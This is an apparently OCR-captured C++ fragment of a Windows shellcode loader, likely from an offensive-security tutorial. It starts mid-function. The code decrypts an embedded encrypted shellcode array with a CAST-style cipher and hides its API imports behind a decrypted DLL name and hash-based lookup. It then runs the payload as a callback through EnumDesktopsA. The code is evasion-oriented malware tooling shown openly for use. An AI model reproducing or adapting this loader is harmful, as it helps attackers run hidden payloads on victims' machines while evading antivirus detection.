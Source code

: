 ```cpp
  }

  // decrypt the entire shellcode into the allocated memory
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    uint32_t decrypted_block[2];
    memcpy(decrypted_block, shellcode + i * BLOCK_SIZE, BLOCK_SIZE);
    cast_decrypt(decrypted_block, subkeys);
    memcpy((char *)mem_block + i * BLOCK_SIZE, decrypted_block, BLOCK_SIZE);
  }

  d((char*)udll, sizeof(udll), secretKey, sizeof(secretKey));
  HMODULE mod = LoadLibrary((LPCSTR)udll);
  LPVOID addr = getAPIAddr(mod, 121801766);
//   printf("0x%p\n", addr);
  EnumDesktopsA_t myEnumDesktopsA = (EnumDesktopsA_t)addr;

  // execute the shellcode using EnumDesktopsA
  myEnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem_block, 
  (LPARAM)NULL); 
}

int main() {
  unsigned char padded[] = "\x92\x15\x7e\x1b\x46\x4d\xff\xff"
  "\x7d\x55\x52\x41\x61\xcc\x51\x41\x52\x73\x83\x33\x2f\x47"
  "\xd2\x65\x4d\x72\xd9\x32\xdd\x92\x8b\x52\x30\x50\x76\xc3"
  "\xe3\xb6\x3e\x48\x6f\x80\xe7\x74\xca\x8c\xb7\x4a\x89\xcf"
  "\xf1\x65\x42\x9b\xc0\xac\x5a\xe1\x3d\xc3\x26\x8d\x41\xc1"
  "\x46\xf4\xac\x53\x3c\x8f\xed\x52\x10\x26\x1e\x76\x05\x3b"
  "\x20\x3e\x00\x11\x02\xc3\x0f\x05\x3e\x8b\x13\x71\x86\xc0"
  "\x85\x91\x85\xc0\xc1\x50\x76\x8a\x32\xda\x3e\x8b\x3e\x91"
  "\x1e\x0d\xf6\x65\x20\x49\x8e\x91\x29\x62\xf9\x95\xc9\x3e"
  "\x8b\x52\xe3\xc5\x51\x22\xd6\x4d\x6b\x09\x09\xf0\x50\x32"
  "\x41\xc1\x55\x4b\xa1\x74\x68\x80\xe0\x75\xf1\x72\x45\x46"
  "\x75\xb8\x08\x45\x93\xd8\x30\x5d\x6f\x63\x44\x8b\xb9\x22"
  "\x77\x40\x76\xc8\x3e\x41\x3f\x54\x09\x22\x2d\x60\x40\x1c"
  "\xdb\x68\xd5\xb6\xb6\x1a\x04\x88\xbd\x8f\x88\x1f\x40\xa3"
  "\x58\x5e\x70\xc9\x03\x02\xde\x9d\x41\x5a\x19\x2f\x13\xc0"
  "\xee\xa8\xff\xe0\x7b\xc0\xd2\x48\xf9\xce\x8b\x12\xd9\x7d"
  "\xb6\x38\x65\x8d\x49\xc7\x01\x27\x48\x8d\x11\x1d\x48\x8d"
  "\x66\xfb\x4c\x8d\x16\x1b\x4c\x8d\xf3\xa0\x30\xc9\x7a\x8a"
  "\x31\xc9\xf9\x77\x45\x55\x3e\x46\xff\xd5\x56\x36\xa7\x8c"
  "\x88\x2d\xba\xa6\x7c\xde\x19\x3b\x80\x97\x83\xc4\x18\x6a"
  "\xfd\x9c\x1e\xc3\xfb\xe0\x68\xd9\xcb\x2d\x36\xff\x6f\x6a"
  "\x41\x7e\x94\xc4\xa7\xf9\xd5\x4d\x35\x1b\x18\x5a\x71\x2c"
  "\x6f\x77\xed\x5f\x63\x63\x0d\x41\x5e\x3d\x00\x00";

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  cast_decrypt_and_execute_shellcode(padded, sizeof(padded), subkeys);

  return 0;
}
```
